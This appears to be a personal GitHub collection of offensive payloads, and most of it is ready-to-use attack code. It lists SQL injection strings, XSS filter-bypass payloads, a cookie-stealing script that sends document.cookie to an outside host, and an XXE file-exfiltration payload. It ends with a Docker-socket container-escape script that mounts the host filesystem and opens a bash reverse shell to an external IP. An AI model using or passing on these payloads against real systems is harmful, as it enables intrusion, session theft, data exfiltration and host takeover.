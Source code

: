 ## Just a useless set of payload used by me. Saved here for remembrance.

### SQL Injection
#### Time Based Blind:
 - `(select(if(user()like(user()),sleep(4),sleep(2))))` (Timed Based Blind)
 - `x'.and.(select.count(*).from.shouldNotExistTable)=1.or.'1'='0.` (this is for error based sqli and should return error like : "Table 'x.shouldNotExistTable' doesn't exist")
 - `x' AND (SELECT 4321 FROM (SELECT(SLEEP(2-(IF(20=20,0,5)))))x)-- asd` (Timed Based Blind)
 - `x' AND (SELECT 2312 FROM (SELECT(SLEEP(2)))asd)-- dsa` (Timed Based Blind)

### Cross Site Scripting
 - `[document.domain].find(confirm)` (helped me to bypass WAFs/filters or useful if input is echoed or used as variable in js files)
 - `['h0nus'].find(window[String.fromCharCode(97,108,101,114,116)])` (pops an alert with h0nus string :) useful for waf bypasses or evade checks)
 - `('asd').link(eval("var asd=new Function('return prompt(\"h0nus\")'); asd();"))` (pops a prompt with h0nus string )
 - `('asd').anchor(prompt());` (just pops a prompt) 
 - `var url="https://any.host.name/",params="asd="+document.cookie,http=new XMLHttpRequest;http.open("GET",url+"?"+params,!0),http.send(null);` To steal cookies

### XML External Entity
 - ```<?xml version="1.0" ?><!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "https://docs.oracle.com/cd/E13153_01/wlcp/wlss40/sip-app_1_0.dtd.txt">
    <!ENTITY % condition 'aaa)>
        <!ENTITY &#x25; file SYSTEM "/opt/hybris/deployments/dist.tar.deploy/hybris/confi">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;http://&#x25;file;:asd@localhost:22&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>
    %local_dtd;
]><data>
   <lastName>asd</lastName>
    <notes>atest</notes>
    <town>Lucca</town>
    <streetNumber>15</streetNumber>
    <postalCode>46794</postalCode>
    <taxCode>XTJBNH44R30D793Y</taxCode>
    <firstName>&error;</firstName>
    <streetName>asd</streetName>
    <countryIso>it</countryIso>
    <phone>3462617384</phone>
    <district>LU</district>
    <shippingAddress>false</shippingAddress>
    <billingAddress>false</billingAddress>
    <vatCode>02313821007</vatCode>
    <defaultAddress>false</defaultAddress>
</data> (Used when i had no space left for internal entities into payload/dtd)
``` 
 -  `<![CDATA[ <script>prompt(2)</script> ]]>` (Sometimes WAFS block by keywords like DOCTYPE, ENTITY & ect, but you can inject into `<![CDATA[X]]>` )

### PWN scripts/tips
* Docker:
  * Get all containers or images:
    * `curl -i -s --unix-socket /var/run/docker.sock -X GET http://localhost/containers/json`

  * Create a new container
    * `curl -i -s --unix-socket /var/run/docker.sock -X POST \
    -H "Content-Type: application/json" \
    --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["bash", "/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' \
    http://localhost/containers/container_id/exec`

  * Start the newer container with the command
    * `curl -i -s --unix-socket /var/run/docker.sock -X POST \
    -H 'Content-Type: application/json' \
    --data-binary '{"Detach": false,"Tty": false}' \
    http://localhost/exec/exec_id/start`
    
  * Final PoC:
    * `#!/bin/bash
    pay="bash -c 'bash -i >& /dev/tcp/10.10.14.194/7777 0>&1'"
    payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$pay\\\"\"]"
    response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)
    revShellContainerID=$(echo "$response" | cut -d'"' -f4)
    curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start
    sleep 1
    curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"`
